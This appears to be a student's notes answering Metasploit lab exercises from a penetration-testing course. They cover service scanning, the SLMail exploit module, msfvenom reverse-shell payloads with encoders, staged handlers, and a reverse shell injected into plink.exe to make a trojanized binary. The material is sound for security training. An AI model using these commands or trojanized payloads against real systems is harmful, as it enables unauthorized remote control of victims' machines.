

16.4.3 - Exercises
1. Start the required postgresql service and launch msfconsole
2. Use the SMB, HTTP, and any other interesting auxiliary modules to scan the lab systems.
3. Review the host information in the database. Try to fill it with as much
information as you can.
1.
Started with commands:
systemctl start postgresql
msfconsole
2.
Used the following scanners:
auxiliary/scanner/snmp/snmp_enum
auxiliary/scanner/smb/smb_enumusers
auxiliary/scanner/smb/smb_version
auxiliary/scanner/http/http_login
3.
Reviewed host information with:
hosts
services
services -p 80
16.5.1 - Exercises
1. Exploit SLMail using the existing Metasploit module.
2. Using the SMB vulnerability data you gathered from Nmap, use Metasploit to exploit vulnerable lab systems.
1.
Exploited SLmail with Metasploit module:
use exploit/windows/pop3/seattlelab_pass
set payload windows/shell_reverse_tcp

2.
STILL NEED TO COMPLETE THIS EXERCISE
16.6.8 - Exercises
1. Create a staged and a non-staged Linux binary payload to use on Kali.
2. Setup a Netcat listener and run the non-staged payload. Does it work?
3. Setup a Netcat listener and run the staged payload. Does it work?
4. Get a Meterpreter shell on your Windows system. Practice file transfers.
5. Inject a payload into plink.exe. Test it on your Windows system.
1.
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f elf --platform linux -a x86 -e x86/shikata_ga_nai > linux-binary-nonstaged.elf
msfvenom -p linux/x86/shell/reverse_tcp LHOST=127.0.0.1 LPORT=443 -f elf --platform linux -a x86 -e x86/shikata_ga_nai > linux-binary-staged.elf
2.
I couldn't get it to spawn a shell for me on Linux--just a connection. But the shell worked with Windows:
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.187 LPORT=443 -f exe --platform windows -a x86 -e x86/shikata_ga_nai > /var/www/html/windows-binary-nonstaged.exe
3.
The staged shell does not work.
msfvenom -p windows/shell/reverse_tcp LHOST=10.11.0.187 LPORT=443 -f exe --platform windows -a x86 -e x86/shikata_ga_nai > /var/www/html/windows-binary-staged.exe
Because it is staged, it only works with the multi/handler:
use exploit/multi/handler
set payload windows/shell/reverse_tcp
exploit
When the WIN7 VM executes the staged executable, it spawns a shell.

4.
Meterpreter shell obtained and practiced file transfers.
set payload windows/meterpreter/reverse_tcp
The staged exploit was already downloaded to the machine as created by msfvenom:
msfvenom -p windows/shell/reverse_tcp LHOST=10.11.0.187 LPORT=443 -f exe --platform windows -a x86 -e x86/shikata_ga_nai > /var/www/html/windows-binary-staged.exe

5.
Injected a reverse shell into plink.exe with code below and then downloaded to the WIN 7 VM via web:
root@:~/labs/msf> msfvenom -p windows/shell_reverse_tcp lhost=10.11.0.187 lport=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o plink-embedded-shell.exe

16.7.1 - Exercise
1. Create a new Metasploit module for your Crossfire exploit.
1.
Used .pdf example to create a crossfire exploit in /usr/share/metasploitframework/modules/exploits/linux/misc/crossfire.rb.
In msfconsole, use exploit/linux/misc/crossfire. Set payload linux/x86/shell_reverse_tcp. Ran in a terminal /usr/games/crossfire/bin/crossfire.